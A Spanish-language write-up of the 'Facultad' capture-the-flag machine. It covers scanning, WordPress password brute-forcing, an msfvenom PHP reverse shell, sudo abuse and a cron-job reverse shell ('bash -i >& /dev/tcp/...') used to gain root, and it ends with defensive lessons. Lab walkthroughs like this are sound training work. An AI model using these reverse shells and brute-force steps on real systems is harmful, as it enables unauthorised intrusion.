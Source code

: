 ## 🧠 Resolución del CTF "Facultad" – Análisis técnico completo

**Plataforma:** TheHackersLabs\
**Nombre de la máquina:** Facultad\
**Dificultad:** Fácil – Ideal para iniciarse en enumeración web, esteganografía, WordPress, y escalada de privilegios\
**Autor:** Beafn28

---

### 🔍 1. Escaneo inicial: reconocimiento de servicios y puertos

Ejecutamos `nmap` para descubrir servicios activos:

```bash
nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn <IP>
```

**Resultado:**

- `22/tcp` → SSH (OpenSSH 9.2p1)
- `80/tcp` → HTTP (Apache 2.4.62)
- `3306/tcp` → MySQL

La MAC revela que es una VM de VirtualBox corriendo Linux.

---

### 🌐 2. Fuerza bruta web: directorios y archivos ocultos

Lanzamos un escaneo web con `feroxbuster`:

```bash
feroxbuster -u http://<IP> -w directory-list-2.3-medium.txt -x php,html,txt
```

Se detectan rutas interesantes:

- `/education`
- `/images/facultad.jpg`

---

### 🖼 3. Esteganografía: extrayendo datos ocultos en imagen

Intentamos extraer información con `steghide`:

```bash
steghide extract -sf facultad.jpg
```

Se obtiene `mensaje.txt`, con contenido en Brainfuck.

---

### 🛡 4. Ataque a WordPress: enumeración y fuerza bruta

Confirmamos WordPress en `/education`. Usamos `wpscan`:

```bash
wpscan --url http://<IP>/education/ --usernames facultad --passwords rockyou.txt
```

Resultado:\
**Usuario:** facultad\
**Contraseña:** asdfghjkl

---

### 👛 5. Reverse shell desde WordPress

Creamos una reverse shell con:

```bash
msfvenom -p php/reverse_php LHOST=<tu_ip> LPORT=4444 -f raw > shell.php
```

La subimos, accedemos a la URL y escuchamos con:

```bash
nc -nlvp 4444
```

Se obtiene acceso como `www-data`.

---

### ⬆️ 6. Escalada de privilegios a "gabri"

Comprobamos permisos sudo:

```bash
sudo -l
```

Permite ejecutar PHP como `gabri`:

```bash
sudo -u gabri php -r "system('/bin/bash');"
```

En `mensaje.txt`, tras decodificar Brainfuck, obtenemos la contraseña:\
**lapatrona2025**

---

### 👑 7. Escalada a root con cron job

Como `gabri`, vemos un script ejecutado por root:

```bash
/home/vivian/scripts/script.sh
```

Si editable, añadimos:

```bash
#!/bin/bash
bash -i >& /dev/tcp/<tu_IP>/5555 0>&1
```

Escuchamos con:

```bash
nc -nlvp 5555
```

Y obtenemos acceso como `root`.

---

### 🌟 Conclusión: aprendizajes clave

| Técnica              | Qué aprendimos                              |
| -------------------- | ------------------------------------------- |
| Escaneo con Nmap     | Identificar servicios expuestos             |
| Fuzzing web          | Descubrir rutas ocultas                     |
| Esteganografía       | Extraer datos sensibles de imágenes         |
| WordPress Pentesting | Fuerza bruta y enumeración de usuarios      |
| Reverse Shell        | Acceso interactivo desde servidor web       |
| Escalada con sudo    | Uso de permisos para pivotar a otro usuario |
| Cron jobs inseguros  | Obtener acceso root                         |

---

### 🔐 Buenas prácticas que se deben aplicar

- Usar contraseñas robustas
- Revisar archivos multimedia antes de publicarlos
- Configurar correctamente los permisos de `sudo`
- Controlar scripts ejecutados por cron
- Restringir servicios expuestos como MySQL

---

🔹 CTF muy recomendable para practicar habilidades clave en pentesting inicial.

